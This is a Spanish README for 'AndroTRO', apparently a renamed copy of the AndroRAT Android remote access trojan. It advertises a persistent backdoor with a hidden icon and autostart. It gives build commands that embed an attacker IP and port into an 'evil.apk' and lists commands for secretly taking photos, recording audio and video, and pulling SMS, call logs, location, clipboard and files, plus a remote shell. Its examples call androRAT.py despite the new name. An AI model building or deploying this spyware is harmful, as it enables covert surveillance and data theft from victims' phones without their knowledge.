


**Descarga de responsabilidad**: este software está destinado únicamente a fines educativos. No soy responsable de ningún uso malicioso de la aplicación.
# AndroTRO 


[]

AndroTro es una herramienta diseñada para controlar el sistema Android de forma remota y recuperar información del mismo. AndroTro es una aplicación cliente/servidor desarrollada en Java Android para el lado del cliente y el Servidor está en Python.

##### AndroTRO funcionará en dispositivos desde Android 4.1 (Jelly Bean) hasta Android 9.0 (Oreo) (API 16 a API 28)

> AndroTRO también funciona en Android 10 (Q), pero algunos de los comandos del intérprete serán inestables. 

## Screenshots


## Características de AndroTro
* Puerta trasera completamente persistente
* ~~Totalmente indetectable por cualquier escáner antivirus [VirusTotal](https://www.virustotal.com/gui/file/e900b5d37ad8c8f79ca000b148253af04696a85fdfc245861cfb226dd86562df/detection)
* Icono invisible al instalar
* APK liviano que se ejecuta 24*7 en segundo plano
* La aplicación se inicia automáticamente al iniciar
* Puede grabar audio, video y tomar fotografías desde ambas cámaras.
* Explorar registros de llamadas y registros de SMS
* Obtener la ubicación actual, detalles de la tarjeta SIM, IP, dirección MAC del dispositivo


## Requisitos
  AndroTRO requiere Python3 y JAVA (o Android Studio)

## Instalacion
```
git clone https://github.com/Plumst-37/AndroTro.git
cd AndroTro
pip install -r requirements.txt
```
#### Nota:
Al clonar el repositorio usando Git bash en Windows, es posible que obtenga el siguiente error:
> error: no se puede crear el archivo \<nombre de archivo>: nombre de archivo demasiado largo

Esto se debe a que Git tiene un límite de 4096 caracteres para un nombre de archivo, excepto en Windows cuando Git se compila con msys. Utiliza una versión anterior de la API de Windows y hay un límite de 260 caracteres para un nombre de archivo.

Puede evitar esto configurando `core.longpaths` en `true`.

> git config --system core.longpaths verdadero

Debes ejecutar Git bash con privilegios de administrador.


### Modos disponibles
* `--build` - para construir la apk de Android
* `--ngrok` - para usar el túnel ngrok (a través de Internet)
* `--shell`: obtención de un shell interactivo del dispositivo

### modo `construir`

```
Uso:
  python3 androTRO.py --build --ngrok [banderas]
  Banderas:
    -p, --port Número de puerto del atacante (opcional, por defecto está configurado en 8000)
    -o, --output Nombre del archivo apk (opcional, por defecto está configurado en "karma.apk")
    -icon, --icon Icono visible después de instalar apk (de forma predeterminada está configurado como oculto)
```

```
Uso:
  python3 androTRO.py --build [banderas]
  Banderas:
    -i, --ip Dirección IP del atacante (obligatoria)
    -p, --port Número de puerto del atacante (obligatorio)
    -o, --output Nombre del archivo apk (opcional)
    -icon, --icon Icono visible después de instalar apk (de forma predeterminada está configurado como oculto).
```

O puede compilar manualmente el apk importando la carpeta [Código de Android](Android_Code) a Android Studio y cambiando la dirección IP y el número de puerto en [config.java](Android_Code/app/src/main/java/com/example/reverseshell2 /config.java) y luego puede generar el apk firmado desde `Android Studio -> Build -> Generate Signed APK(s)`
### modo `shell`
```
Uso:
  python3 androTRO.py --shell [banderas]
  Banderas:
    -i, --ip Dirección IP de Listner
    -p, --port Número de puerto de Listner
```
Después de ejecutar el modo `shell`, obtendrás un intérprete del dispositivo.

Comandos que se pueden ejecutar en el intérprete.
```
    deviceInfo                 --> devuelve información básica del dispositivo
    camList                    --> devuelve ID de cámara  
    takepic [cameraID]         --> Toma una foto de la cámara
    startVideo [cameraID]      --> comienza a grabar el video
    stopVideo                  --> deja de grabar el video y devuelve el archivo de video
    startAudio                 --> comienza a grabar el audio
    stopAudio                  --> deja de grabar el audio
    getSMS [inbox|sent]        --> devuelve sms de la bandeja de entrada o sms enviados en un archivo
    getCallLogs                --> devuelve registros de llamadas en un archivo
    shell                      --> inicia un shell sh del dispositivo
    vibrate [number_of_times]  --> hacer vibrar el dispositivo varias veces
    getLocation                --> devolver la ubicación actual del dispositivo
    getIP                      --> devuelve la ip del dispositivo
    getSimDetails              --> devuelve los detalles de todos los sim del dispositivo
    clear                      --> borra la pantalla
    getClipData                --> devolver el texto guardado actualmente desde el portapapeles
    getMACAddress              --> devuelve la dirección mac del dispositivo
    exit                       --> salir
```
En el shell sh hay algunos subcomandos.
```
    get [full_file_path] --> descarga el archivo a la máquina local (tamaño de archivo de hasta 15 MB)
    uploads [nombre de archivo] --> carga el archivo al dispositivo Android
```

## Ejemplos

* Para compilar el apk usando ngrok, que también configurará el listner:

``python3 androRAT.py --build --ngrok -o evil.apk``

* Para construir el apk usando la IP y el puerto deseados:

``python3 androRAT.py --build -i 192.169.x.x -p 8000 -o evil.apk``

* Para conseguir el intérprete:

``python3 androRAT.py --shell -i 0.0.0.0 -p 8000``

## Ejemplos de intérpretes

* Generando APK
<p align="centro">
  
</p>


## HACER
* ~~ Soporte de Ngrok ~~
* Configurar multicliente
* Agregar comando de captura de pantalla
